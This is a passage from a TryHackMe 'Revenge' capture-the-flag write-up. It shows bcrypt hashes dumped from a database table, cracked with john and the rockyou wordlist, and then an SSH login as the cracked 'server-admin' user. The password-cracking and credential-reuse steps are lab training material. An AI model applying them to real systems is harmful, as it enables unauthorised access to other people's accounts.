 Beside I luckily observe the first flag from table `user`, I get more excited on the `username` and hash password from table `system_user`

## Crack hash

Therefore, I save the hash passwords and their usernames on my local machine.

```
┌──(kali㉿kali)-[~/TryHackMe/revenge]
└─$ cat hash_pass.txt
server-admin:$2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a
kmotley:$2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa
dhughes:$2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK
```

After identifying them as **bcrypt** type of hash which is usually begin with the pattern `$2a$`, I crack them with `john`:

```
┌──(kali㉿kali)-[~/Wordlists]
└─$ john -w=~/Wordlists/rockyou.txt ~/TryHackMe/revenge/hash_pass.txt --format=bcrypt
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (bcrypt [Blowfish 32/64 X3])
Loaded hashes with cost 1 (iteration count) varying from 256 to 4096
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]         (server-admin)
1g 0:00:03:16 0.02% (ETA: 2023-10-28 23:17) 0.005093g/s 21.08p/s 43.45c/s 43.45C/s katty..1angel
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```

However, only 1 password of user **server-admin** could be cracked. Hope that user would be available on the target machine, not only used on the web page!

## Gain Access

I establish **ssh connection** with the creds found above and connect to the system sucessfully:

```
┌──(kali㉿kali)-[~]
└─$ ssh server-admin@revenge.thm
server-admin@revenge.thm's password:
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0

8 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

################################################################################
#                        Ducky Inc. Web Server 00080012                        #
#            This server is for authorized Ducky Inc. employees only           #
#                  All actiions are being monitored and recorded               #
#                    IP and MAC addresses have been logged                     #
################################################################################
Last login: Thu Oct 19 12:25:12 2023 from 10.9.63.75
server-admin@duckyinc:~$
```
